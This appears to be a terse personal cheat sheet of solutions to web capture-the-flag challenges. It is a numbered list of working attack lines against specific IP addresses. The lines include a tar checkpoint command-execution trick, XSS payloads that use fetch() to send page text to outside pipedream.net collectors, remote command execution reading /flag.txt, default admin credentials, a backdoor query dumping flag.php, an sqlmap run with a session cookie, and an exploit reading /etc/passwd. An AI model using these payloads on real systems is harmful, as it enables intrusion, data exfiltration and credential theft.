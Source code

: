 # RED


1.tartarsausage  -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec="ls"        dirsearch -u http://35.246.139.54:31660/enhjenhzZGN3YWRzYWRhc2Rhc3NhY2FzY2FzY2FzY2FjYWNzZHNhY2FzY2Fzc2FjY2Fz/ -e php,txt,html


2.Frameble     <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>      AN          <script>fetch('https://enxe7m9zrqkto.x.pipedream.net?data='+document.body.innerText);</script>


-3.rundown     curl -X OPTIONS http://35.246.139.54:30595 -i         http://35.246.139.54:30595/console             curl -X POST http://35.246.139.54:30595 -d "cmd=cat /flag.txt" (ase vipovit rom pickle a)

-4. online-encryption


5 manual-review <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>


-6 bolt    http://34.159.151.77:31474/bolt/login admin:password

7 alfa-cookies- https://drive.google.com/file/d/1YjUzKJJnrR0L5DNr3H8GSDFRz73d6ekM/view

8 nondiff-backdoor   grep -r "shell.exec"    34.159.62.179:30876/?welldone=knockknock&shazam=cat flag.php    CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}

9 schematick sqlmap -u http://34.159.62.179:32027/index.php  --cookie="PHPSESSID=e40e1c0f2baba9b6b6d07033355f0819" --forms --columns


10 elastic python exploit.py http://35.198.97.185:31763/ /etc/passwd
11 libshh  https://github.com/nikhil1232/LibSSH-Authentication-Bypass




https://jorgectf.github.io/blog/post/cyberedu-web-challenges/#rundown 
(alien-inclusion
address
broken-login
manual-review
rundown
slightly-broken
ping-station
downloader-v1
puzzled)
